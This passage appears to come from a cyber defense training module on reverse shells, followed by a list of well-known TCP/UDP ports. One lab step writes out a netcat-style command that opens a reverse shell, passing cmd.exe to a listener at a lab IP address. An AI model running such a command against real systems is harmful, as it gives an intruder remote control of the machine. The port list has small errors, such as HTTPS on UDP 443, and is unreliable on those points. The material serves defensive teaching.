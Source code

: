﻿

Reverse Shell Key Components 
﻿

The following are key components of reverse shells:

The target machine initiates the TCP connection to the attacker machine, connecting and communicating to the server. It is important to note that this is the opposite of the bind shell. 

The target machine must be directly accessible remotely from the attack machine.

The shell is initiated by the target host. 

A reverse shell functions regardless of a NAT in place, as long as not further limited by firewall rules or other network security devices. Attackers typically use common web ports as the destination for reverse shells so that firewall rules are more likely to permit the activity.

Methods of Establishing Reverse Shells
﻿

The following are a few methods of establishing a reverse shell on Windows:

PowerShell 

Python

Perl

Ruby

8. From the Cmd line, execute the following command:
Cmd line: -nv 172.35.13.2 4444 -e cmd.exe

This establishes a connection to ch-tech-1 (172.35.13.2):

9. Return to the ch-tech-1 VM. Figure 8.1-10 shows the Windows PowerShell session:

This command is similar to the bind shell, however, the -e flag passes the cmd.exe as a parameter to it allowing a reverse shell to establish. Notice we now have access to the CLI on ch-tech-2 as user trey.pitts. Using a reverse shell the connection is established from the target machine, avoiding detection and firewall rules. 

Non-Standard Listening or Connected Services or Ports
TCP and User Datagram Protocol (UDP) use port numbers to identify applications that hosts are utilizing and that communicate with each other. Communications are identified by their respective source and destination IP address and TCP/UDP port numbers. Port numbers can be any number between 1 and 65535; however, server applications are most commonly found below the value 1024. A few well-known ports are listed below:

TCP 20 and 21 (File Transfer Protocol, FTP)
TCP 22 (Secure Shell, SSH)
TCP 23 (Telnet)
TCP 25 (Simple Mail Transfer Protocol, SMTP)
TCP and UDP 53 (Domain Name System, DNS)
UDP 69 (Trivial File Transfer Protocol, TFTP)
TCP 80 (Hypertext Transfer Protocol, HTTP)
TCP 119 (Network News Protocol, NNTP)
TCP, UDP 139 (Windows File and Print Sharing)
UDP 161 and 162 (Simple Network Management Protocol, SNMP)
UDP 443 (Secure Sockets Layer over HTTP, HTTPS)
TCP 445 (Server Message Block, SMB)
TCP 3389 (Remote Desktop Protocol, RDP)
TCP 8080 (Alternative port for HTTP traffic or for a proxy server)
It is important to remember that no list is exhaustive and they should remember the ports discussed in CDA-B. 
